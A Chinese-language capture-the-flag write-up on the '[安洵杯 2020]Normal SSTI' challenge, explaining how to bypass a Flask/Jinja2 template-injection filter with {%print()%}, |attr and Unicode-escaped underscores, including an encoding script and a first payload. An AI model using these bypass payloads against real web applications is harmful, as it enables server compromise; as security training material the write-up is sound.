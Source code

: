 学习文章：[最全SSTI模板注入waf绕过总结（6700+字数！）](https://blog.csdn.net/2301_76690905/article/details/134301620)、[FLask SSTI从零到入门 - 跳跳糖](https://tttang.com/archive/1698/)、[Python 部署flask项目+阿里云宝塔(巨详细)](https://blog.csdn.net/weixin_43334925/article/details/124949920)

# 一、刷题
## （一）<font style="color:rgb(0, 0, 0);">[安洵杯 2020]Normal SSTI</font>
进到靶场只有一下信息

## ![](https://cdn.nlark.com/yuque/0/2025/png/50616406/1737830123003-eb48d622-5ef2-4b45-8090-d26b1f4c7d4b.png)
随便试几个数

![](https://cdn.nlark.com/yuque/0/2025/png/50616406/1737831383793-89adc068-03cf-4493-8b2e-730533d38c91.png)

<font style="color:rgb(77, 77, 77);">这一题关键在于用Unicode编码绕过点和下划线的过滤和用{%%}绕过{{}}的过滤</font>

<font style="color:rgb(48, 49, 51);">这个只要知道了用编码绕过就很好解</font>

<font style="color:rgb(48, 49, 51);">学习了一些知识后知道了：</font>

<font style="color:rgb(48, 49, 51);">过滤了{{}}可以使用{%print()%}</font>

<font style="color:rgb(48, 49, 51);">因为.和[]被过滤，所以使用flask的|attr来调用方法</font>

<font style="color:rgb(48, 49, 51);">‘’|attr(“__class__”)等于</font>

<font style="color:rgb(48, 49, 51);">‘’.__class__</font>

<font style="color:rgb(48, 49, 51);">如果要使用xxx.os(‘xxx’)类似的方法，可以使用</font>

<font style="color:rgb(48, 49, 51);">xxx|attr(“os”)(‘xxx’)</font>

用脚本

```python
class_name = "__class__"
unicode_class_name = ''.join(['\\u{:04x}'.format(ord(char)) for char in class_name])
print(unicode_class_name)
```

得到

```plain
\u005f\u005f\u0063\u006c\u0061\u0073\u0073\u005f\u005f
```

所以先构造playload

```plain
url={%print(()|attr(%22\u005f\u005f\u0063\u006c\u0061\u0073\u0073\u005f\u005f%22))%}
```

得到

![](https://cdn.nlark.com/yuque/0/2025/png/50616406/1737832210924-4e868c58-1704-4b8d-9e3f-cf30ad565fb4.png)
